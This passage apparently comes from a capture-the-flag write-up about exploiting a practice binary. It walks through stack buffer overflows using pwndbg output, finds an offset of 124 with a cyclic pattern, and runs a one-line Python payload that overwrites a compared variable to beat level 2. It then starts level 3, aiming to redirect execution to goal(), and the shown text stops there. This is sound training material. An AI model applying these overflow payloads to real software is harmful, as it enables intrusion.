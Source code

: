 However, we can overwrite the value of this local variable at offset 124. This can be found using a cyclic pattern and feeding it into `scanf()`: 

```
 ► 0x804860a <main+79>     cmp    dword ptr [ebp - 0xc], 0xcc07c9
   0x8048611 <main+86>     jne    main+137 <0x8048644>
    ↓
   0x8048644 <main+137>    sub    esp, 0xc
   0x8048647 <main+140>    push   0x804878c
   0x804864c <main+145>    call   puts@plt <0x8048460>

   0x8048651 <main+150>    add    esp, 0x10
   0x8048654 <main+153>    mov    eax, 0
   0x8048659 <main+158>    mov    ecx, dword ptr [ebp - 4]
   0x804865c <main+161>    leave
─────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────
00:0000│ esp  0xffa2f770 ◂— 0x61616161 ('aaaa')
01:0004│      0xffa2f774 ◂— 0x61616162 ('baaa')
02:0008│      0xffa2f778 ◂— 0x61616163 ('caaa')
03:000c│      0xffa2f77c ◂— 0x61616164 ('daaa')
04:0010│      0xffa2f780 ◂— 0x61616165 ('eaaa')
05:0014│      0xffa2f784 ◂— 0x61616166 ('faaa')
06:0018│      0xffa2f788 ◂— 0x61616167 ('gaaa')
07:001c│      0xffa2f78c ◂— 0x61616168 ('haaa')
───────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────
 ► f 0  804860a main+79
   f 1 f75f7637 __libc_start_main+247
pwndbg> x/wx $ebp-0xc
0xffa2f7ec:     0x62616167
pwndbg> !
# cyclic -o 0x62616167
124
```

Great, so pretty easy to win this level now:

```
# python -c 'print "A"*124 + "\xc9\x07\xcc"' | ./level2
----- LEVEL 2 -----
What is your party name? Now we're cooking with gas. Lets ramp it up a bit.
----- LEVEL 3 -----
Just a simple question...what is your favorite spell?
```

#### Level 3

Checking the disassembly we find a function called `goal()` which basically prints the winning message and executes level4, indicating this is where we want to go. `goal()` itself isn't called from anywhere else in the binary, so we need to redirect execution here. 

The `interact()` function calls `fread()` Let's break there and see what's happening. 

```
─────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────
 ► 0x80485f5 <interact+58>    call   fread@plt <0x8048460>
        ptr: 0xffe64634 ◂— 0x0
        size: 0x1
        n: 0x89
        stream: 0xf77375a0 (_IO_2_1_stdin_) ◂— 0xfbad2088

   0x80485fa <interact+63>    add    esp, 0x10
   0x80485fd <interact+66>    nop
   0x80485fe <interact+67>    leave
   0x80485ff <interact+68>    ret
```